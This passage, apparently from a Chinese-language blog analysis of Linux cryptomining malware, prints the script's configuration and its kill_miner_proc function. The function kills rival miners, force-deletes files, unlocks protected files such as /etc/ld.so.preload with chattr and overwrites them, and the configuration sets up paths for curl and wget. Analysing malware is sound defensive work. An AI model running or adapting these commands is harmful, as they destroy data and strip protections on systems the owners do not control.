 **配置参数：**

> **rtdir**这个参数后面会有用到，别的配置则是秉持：虽然让别人不好用，但我依然好用的原则。

```
rtdir="/etc/sysupdates"
bbdir="/usr/bin/curl"
bbdira="/usr/bin/cur"
ccdir="/usr/bin/wget"
ccdira="/usr/bin/wge"
```

### **3、函数部分：**

<s>（注释半吐槽）</s>

**kill_miner_proc()：**

> 字面理解，干掉别人矿工的函数qaq

主要内容：

```
ps auxf|grep kinsing| awk '{print $2}'|xargs kill -9
ps auxf|grep kdevtmpfsi| awk '{print $2}'|xargs kill -9
#略一部分格式相同的
ps ax|grep var|grep lib|grep jenkins|grep -v httpPort|grep -v headless|grep "-c"|xargs kill -9
ps ax|grep -o './[0-9]* -c'| xargs pkill -f
#略一部分格式相同的
ps aux | grep -v grep | grep 'kdevtmpfsi' | awk '{print $2}' | xargs -I % kill -9 %
#略一部分格式相同的
pkill -f biosetjenkins
pkill -f Loopback
 
#还休息一会，劳逸结合
sleep 1
 
netstat -anp | grep 185.71.65.238 | awk '{print $7}' | awk -F'[/]' '{print $1}' | xargs -I % kill -9 %
netstat -anp | grep :2222 | awk '{print $7}' | awk -F'[/]' '{print $1}' | grep -v "-" | xargs -I % kill -9 %
#略一部分格式相同的
 
pgrep -f monerohash | xargs -I % kill -9 %
 
#接下来开始干掉别人的文件，
#如果是自己的也无所谓，
#反正后面还要下回来。
rm -rf /usr/bin/config.json
#略一部分格式相同的
 
#解锁
chattr -i /etc/ld.so.preload
#略一部分格式相同的
 
#修改权限，然后删除
chmod +700 /tmp/lok
rm -rf /tmp/lok
#略一部分格式相同的
 
# 解锁，然后给你写成1
chattr -i /tmp/kdevtmpfsi
echo 1 &gt; /tmp/kdevtmpfsi
 
#解锁，写1，加锁
chattr -i /usr/lib/systemd/systemd-update-daily
echo 1 &gt; /usr/lib/systemd/systemd-update-daily
```